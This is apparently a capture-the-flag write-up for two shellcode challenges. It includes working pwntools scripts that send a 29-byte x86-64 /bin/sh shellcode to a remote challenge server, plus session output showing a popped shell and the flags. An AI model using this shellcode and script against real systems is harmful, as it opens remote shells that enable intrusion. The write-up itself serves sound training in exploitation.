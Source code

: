 ## Shellcode 1 & 2 (pwn)

These challenges had us input shellcode which the programs would execute.

The first Shellcode challenge had a input buffer of 64 bytes. This means that the shellcode could not be longer than 64 bytes.

I have previously done some similar challenges and have used https://shell-storm.org/shellcode/index.html before.

The binary given was x86-64. Therefore I had to use shellcode that fit.

By scrolling down to Linux x86-64 on the shell-storm website I found this:
https://shell-storm.org/shellcode/files/shellcode-905.html
This shellcode executes `/bin/sh` giving me a shell on the remote system.

This shellcode was only 29 bytes and well within the 64 bytes buffer.

Then I could craft my exploit:
```python
from pwn import *

p = remote("20.240.63.48", 30011)

p.recvuntil(b"Do you like shellcode? I do. Give me your best shellcode (max 64 bytes) and I'll run it!\n")

shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

p.sendline(shellcode)

p.interactive()
```

This led me to pop a shell and get the flag:
```shell
$ python3 shellexploit.py
[+] Opening connection to 20.240.63.48 on port 30011: Done
[*] Switching to interactive mode
$ ls
flag.txt
shellcode
ynetd
$ cat flag.txt
KCSC{w4ke_up_n3o}
```


Shellcode 2 was really similar, but the buffer was only 32 bytes this time. My shellcode from the previous challenge was 29 bytes, and therefore within the limit. 
The only differences I made was the port number and the string pwntools should wait until, before sending the shellcode.

```python
from pwn import *

p = remote("20.240.63.48", 30012)

p.recvuntil(b"Now write only 32 byte shellcode!\n")

shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

p.sendline(shellcode)

p.interactive()
```

```shell
$ python3 shellexploit.py
[+] Opening connection to 20.240.63.48 on port 30012: Done
[*] Switching to interactive mode
$ ls
flag.txt
shellcode2
ynetd
$ cat flag.txt
KCSC{f0ll0w_t3h_wh1te_rabb1t}
```